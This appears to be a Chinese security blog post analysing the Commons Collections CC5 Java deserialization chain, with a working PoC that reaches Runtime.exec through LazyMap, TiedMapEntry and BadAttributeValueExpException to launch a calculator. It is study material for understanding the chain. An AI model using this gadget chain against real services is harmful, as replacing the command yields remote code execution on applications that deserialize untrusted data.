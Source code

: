 # 分析版本

Commons Collections 3.2.1

JDK 8u65

环境配置参考[JAVA安全初探(三):CC1链全分析](

# 分析过程

CC6是在CC1 LazyMap利用链(引用)的基础上。

CC5和CC6相似都是CC1 LazyMap利用链(引用)的基础上，改变了到LazyMap的入口类。

![image-20240708201259311](https://s2.loli.net/2024/07/08/jf2HQZvmR73yl9g.png)

CC6是用TiedMapEntry的hashCode方法，调用getValue，再调用LazyMap.get

CC5是用TiedMapEntry的toString方法，调用getValue，再调用LazyMap.get

再继续向上找toString，作者找到了BadAttributeValueExpException类，可序列化，还重写了readObject方法。

```java
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    ObjectInputStream.GetField gf = ois.readFields();
    Object valObj = gf.get("val", null);

    if (valObj == null) {
        val = null;
    } else if (valObj instanceof String) {
        val= valObj;
    } else if (System.getSecurityManager() == null
            || valObj instanceof Long
            || valObj instanceof Integer
            || valObj instanceof Float
            || valObj instanceof Double
            || valObj instanceof Byte
            || valObj instanceof Short
            || valObj instanceof Boolean) {
        val = valObj.toString();
    } else { // the serialized object is from a version without JDK-8019292 fix
        val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
    }
}
```

其中Object val可以通过反射进行赋值，

Poc（我是在CC6的基础上改的）

```java
public class cc5 {
//    //LazyMap
//    BadAttributeValueExpException
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
                new ConstantTransformer("1")
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map lazyMap = LazyMap.decorate(new HashMap(), chainedTransformer);
        //断掉利用链 TiedMapEntry, LazyMap, ChainedTransformer都可以
        //举个例子修改tiedMapEntry的 key
        TiedMapEntry tiedMapEntry = new TiedMapEntry(new HashMap(), 1);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        Field val = badAttributeValueExpException.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException, tiedMapEntry);

        //复原
        //因为key为private，而且也没有public方法能直接修改key
        //利用反射
        Class c = TiedMapEntry.class;
        Field key = c.getDeclaredField("map");
        key.setAccessible(true);
        key.set(tiedMapEntry, lazyMap);

        //cc1_poc.serialize(badAttributeValueExpException);
        cc1_poc.unserialize("s.ser");
    }
}
```